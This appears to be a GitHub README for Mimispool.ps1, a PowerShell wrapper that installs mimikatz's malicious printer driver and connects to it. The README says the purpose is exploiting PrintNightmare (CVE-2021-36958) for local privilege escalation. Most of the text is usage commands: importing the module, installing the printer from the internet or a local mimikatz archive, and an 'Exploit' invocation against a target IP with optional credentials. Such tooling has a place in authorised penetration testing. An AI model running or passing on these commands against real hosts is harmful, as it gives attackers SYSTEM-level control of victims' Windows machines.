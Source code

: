# Mimispool.ps1

Just a very small script to install, uninstall or connect to [gentilwiki's Mimispool](https://github.com/gentilkiwi/mimikatz/tree/master/mimispool#readme) printer. Used to exploit the PrintNightmare vulnerability (CVE-2021-36958) for local privilege escalation. Tested on a fully up-to-date Windows 10 Enterprise Evaluation VM.

Requires admin privileges on the host you want to install the printer on.

## Usage

### Import the Module

```powershell
. .\Mimispool.ps1
```

### Install Printer

```powershell
# With internet access
Install-KiwiPrinter

# Without internet access by specifying path to local mimikatz_trunk.zip file
Install-KiwiPrinter -Archive ".\mimikatz_trunk.zip"
```

### Uninstall Printer

```powershell
Uninstall-KiwiPrinter
```

### Connect to Printer (Exploit)

```powershell
# With anonymous access
Invoke-KiwiPrinter -Server "192.168.47.129"

# With credentials
Invoke-KiwiPrinter -Server "192.168.47.129" -Username "user" -Password "pass"
```

![Proof of Concept](img/poc.png)
